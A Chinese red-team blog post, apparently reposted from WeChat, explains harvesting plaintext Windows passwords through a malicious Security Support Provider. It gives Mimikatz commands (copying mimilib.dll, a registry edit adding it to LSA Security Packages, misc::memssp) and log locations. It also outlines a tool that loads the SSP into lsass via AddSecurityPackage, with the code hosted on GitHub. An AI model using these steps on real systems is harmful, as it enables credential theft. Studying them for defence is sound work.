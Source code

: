 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YBAnFbgNd7Q0Eif3Q119qg)

  
 **在 C1Y2M3 师傅看到的思路，师傅没有给出完整代码，这里来复现一下。**

关于 SSP 的利用网上已经有很多的文章了，在 16 年左右三好学生师傅就已经对其有过详细的阐述，这里就不赘述了，或者可以来看 snowming 的文章 (http://blog.leanote.com/post/snowming/ebdd89a8e83c)。都是基于注册表项来进行操作：

```
copy mimilib.dll %systemroot%\system32

reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

文件位置：

```
C:\Windows\system32\kiwissp.log
```

或者纯内存操作：

```
privilege::debug

misc::memssp
```

文件位置：

```
C:\Windows\system32\mimilsa.log
```

而按照 C1Y2M3 师傅的思路就是

```
将动态库或是驱动文件打包进一个可执行文件中，再由需要使用的时候，再临时释放和加载。

通过调用 AddSecurityPackage API函数可以使 lsass.exe 进程加载指定的SSP / AP，无需重启
```

有了思路，我们就是来复现了。

**编译环境：VS2015**

首先新建一个控制台项目，然后，右键资源，新建资源

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9sLlRfPX6BNYjnzp1O7IXm3RpaLvy2qz3y4ibgsibgMPKlFV9ubnWCVHZlgsKzia95e0EDhiasLkZXw/640?wx_fmt=png)

选择自定义，然后随意命名之后，添加我们的资源。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9sLlRfPX6BNYjnzp1O7IXoIHzCicUA20B7ga2Lro3bBXl6SR1VmCoKFdZevjT7L6AdFs04IxXVjQ/640?wx_fmt=png)

此时可以在自动添加的 “resource.h” 头文件中看到我们的资源 ID 宏；

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9sLlRfPX6BNYjnzp1O7IXwXEPuWbwyfa8dIahrtia5RQic6bmdrHk8ucsDKdOrLca6KDPCkg4kiaRw/640?wx_fmt=png)

剩下的就是编写我们的代码了，代码的话我已经上传至了 GitHub：https://github.com/lengjibo/RedTeamTools/tree/master/windows/CredSSP

大家看一下就可以明白了。

然后管理员权限运行，就可以抓到明文密码了。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9sLlRfPX6BNYjnzp1O7IXAL11PeSnk2cM4kiauulA7x2J7pPhIyrUgb5Zlx2HjEmoemO9XyY3nfQ/640?wx_fmt=png)

当然也可以利用 c1y2m3 师傅所说的，与 HTTP.SYS 进行结合。这里就不演示了。

参考文章：

https://c1y2m3.github.io/c1y2m3.github.io/2020/06/15/SSP/

http://www.mamicode.com/info-detail-2638519.html  
https://www.4hou.com/posts/y6jW  
https://blog.csdn.net/ayang1986/article/details/83351842

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)